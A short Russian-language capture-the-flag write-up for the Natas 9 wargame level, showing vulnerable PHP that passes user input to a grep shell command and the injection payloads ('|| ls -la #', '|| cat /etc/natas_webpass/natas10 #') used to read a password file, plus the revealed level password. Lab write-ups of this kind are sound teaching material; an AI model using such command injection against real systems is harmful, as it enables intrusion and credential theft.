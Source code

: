 ## Natas 9
Логиниимся. Страница опять нам даёт поле для ввода и говорит нам "Find words containing". Так же мы можем просмотреть код страницы.
```
Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>
```
Если попросить чат-гпт разобрать его, то он скажет что он уязвим для OS command injection _(это выполнение произвольных команд ОС)_. Затем, для получения флага прописываем команду:
```bash
|| ls -la #
```
и видим тот самый dictionary.txt и пару других файлов

затем прописываем:
```bash
|| cat /etc/natas_webpass/natas10 #
```
и нам даётся пароль для следующего уровня: t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu

ещё рекомендую найти любую шпору по линуксу и играться с командами, это неиронично интересно